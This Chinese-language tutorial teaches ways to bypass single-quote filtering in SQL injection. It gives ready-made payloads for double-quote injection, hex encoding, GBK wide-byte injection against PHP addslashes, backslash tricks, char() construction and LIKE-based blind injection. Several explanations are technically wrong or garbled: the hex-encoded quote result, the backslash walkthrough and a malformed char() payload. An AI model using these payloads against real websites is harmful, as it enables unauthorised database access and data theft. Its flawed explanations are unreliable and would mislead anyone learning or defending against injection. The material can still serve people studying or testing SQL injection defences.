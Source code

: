### 单引号被过滤怎么绕过

**1. 使用双引号**

如果后端代码在 SQL 查询中使用了双引号 `"` 来包裹字符串，那么你可以尝试用双引号进行注入

**原始查询：** `SELECT * FROM users WHERE username = "$username"`

**注入尝试：** `username=" or 1=1 -- "`

**最终执行的 SQL：** `SELECT * FROM users WHERE username = "" or 1=1 -- "`

这种情况并不常见，因为多数开发者会优先使用单引号。但它是一个很好的起点，值得尝试

**2. 使用十六进制编码**

有些数据库（如 MySQL）允许使用十六进制编码来表示字符串。你可以将单引号 `'` 或整个字符串（如 `or 1=1`）进行十六进制编码，然后通过 `0x` 前缀传入

**原始查询：** `SELECT * FROM users WHERE id = '...注入点...'`

**注入尝试：** 假设你要注入 `or 1=1`，单引号 `'` 的十六进制是 `0x27`。 `' or 1=1 -- ` 的十六进制是 `0x27206f7220313d31202d2d20`

**完整 URL 注入：** `id=0x27206f7220313d31202d2d20`

**最终执行的 SQL：** `SELECT * FROM users WHERE id = 'or 1=1 -- '`

虽然这看起来很直接，但实际应用中，你需要将整个注入语句进行十六进制编码，因为后端可能不仅过滤单引号，还可能过滤其他关键字

**3. 使用宽字节注入**

宽字节注入是一种专门针对 PHP 的 `addslashes()` 函数和 `magic_quotes_gpc` 配置的绕过技术。在某些字符集（如 GBK）中，一个汉字占用两个字节

当服务器使用 `addslashes()` 函数时，它会将单引号 `'` 转义为 `\'`。在 ASCII 编码下，`\` 的十六进制是 `0x5c`，`'` 是 `0x27`，所以 `\'` 就是 `0x5c27`

但如果后端数据库使用了 GBK 编码，且它将 `0x5c` 和它前面的一个字节组合成一个汉字时，那么 `\'` 中的 `\` 就会被“吃掉”，从而使得后面的单引号 `'` 重新生效

**攻击步骤：**

1. 找到一个 GBK 编码的网站
2. 在 URL 中注入一个宽字节，例如 `%df`
3. 然后注入单引号

**注入尝试：** `id=1%df%27`

**服务器端处理：**

1. PHP 的 `addslashes()` 函数收到 `%df'`
2. 它在 `'` 前面加上 `\`，变成 `%df\'`
3. URL 编码后，`%df\'` 变为 `%df%5c%27`
4. 当这个字符串传到数据库时，GBK 编码会把 `%df%5c` 当作一个汉字，`%27` 就会单独留下，恢复成单引号 `'`

**最终执行的 SQL：** `SELECT * FROM users WHERE id = '1運''...` (`'運'` 是一个汉字) 后面的 `'` 就成为我们控制的单引号，可以用来闭合语句

**4. 使用反斜线 `\` 绕过 `addslashes`**

在某些情况下，如果后端代码没有过滤反斜线，你可以通过注入一个反斜线来“吃掉” `addslashes` 自动添加的反斜线

**原始查询：** `SELECT * FROM users WHERE id = '...注入点...'`

**注入尝试：** `id=1\'`

**服务器端处理：**

1. PHP 的 `addslashes()` 函数收到 `1'`
2. 它在 `'` 前面加上 `\`，变成 `1\'`
3. 如果前端的输入是 `1\'`， `addslashes` 会将 `\'` 变为 `\\'`

这个方法需要深入理解后端如何处理输入。如果后端代码只对单引号进行了转义，而没有对反斜线进行处理，你就可以用一个反斜线来闭合它

**5. `char()` 函数绕过**

`char()` 函数可以将数字转换为字符。你可以利用这个函数来构造单引号

**注入尝试：** `id=1 and 1=1 and (select char(39))` `id=1 union select 1,2,3 from users where username=char(39)adminchar(39)`

这种方法通常用于绕过对特定字符串（如 `'`）的过滤，但不能绕过对整个注入语句的过滤

**6. 使用 `like` 语句绕过**

在某些盲注场景下，如果无法使用单引号，可以尝试使用 `like` 语句来代替 `union` 或 `and`

**注入尝试：** `id=1 and 1 like 1 and 1=1 --` `id=1 and 1 like database()`

这种方法适用于特定的 SQL 语句结构，但并非万能